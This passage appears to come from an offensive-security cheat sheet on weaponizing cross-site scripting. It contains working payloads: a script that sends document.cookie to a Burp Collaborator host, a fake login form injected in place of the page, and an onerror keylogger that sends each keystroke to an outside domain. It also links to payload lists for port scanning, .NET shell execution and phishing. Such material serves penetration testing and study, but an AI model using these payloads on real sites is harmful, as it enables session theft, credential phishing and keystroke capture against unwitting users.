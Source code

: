 ### CORS

```html
<script>
  fetch('https://<SESSION>.burpcollaborator.net', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>
```

### UI Redressing

Leverage the XSS to modify the HTML content of the page in order to display a fake login form.

```html
<script>
history.replaceState(null, null, '../../../login');
document.body.innerHTML = "</br></br></br></br></br><h1>Please login to continue</h1><form>Username: <input type='text'>Password: <input type='password'></form><input value='submit' type='submit'>"
</script>
```

The following research presents a use case demonstrating how various attacks can be executed by weaponizing an XSS vulnerability abusing legitimate domains to deliver phishing: [lauraops07 XSS at its finest. "Weaponizing XSS vulnerabilities for Red Team engagements."](https://github.com/dhmosfunk/lauraops07-xss-at-its-finest)
- Phishing
- Clickfix
- HTML Smuggling





### Javascript Keylogger

Another way to collect sensitive data is to set a javascript keylogger.

```javascript
<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
```

### Other Ways

More exploits at [http://www.xss-payloads.com/payloads-list.html?a#category=all](http://www.xss-payloads.com/payloads-list.html?a#category=all):

- [Taking screenshots using XSS and the HTML5 Canvas](https://www.idontplaydarts.com/2012/04/taking-screenshots-using-xss-and-the-html5-canvas/)
- [JavaScript Port Scanner](http://www.gnucitizen.org/blog/javascript-port-scanner/)
- [Network Scanner](http://www.xss-payloads.com/payloads/scripts/websocketsnetworkscan.js.html)
- [.NET Shell execution](http://www.xss-payloads.com/payloads/scripts/dotnetexec.js.html)
- [Redirect Form](http://www.xss-payloads.com/payloads/scripts/redirectform.js.html)
- [Play Music](http://www.xss-payloads.com/payloads/scripts/playmusic.js.html)
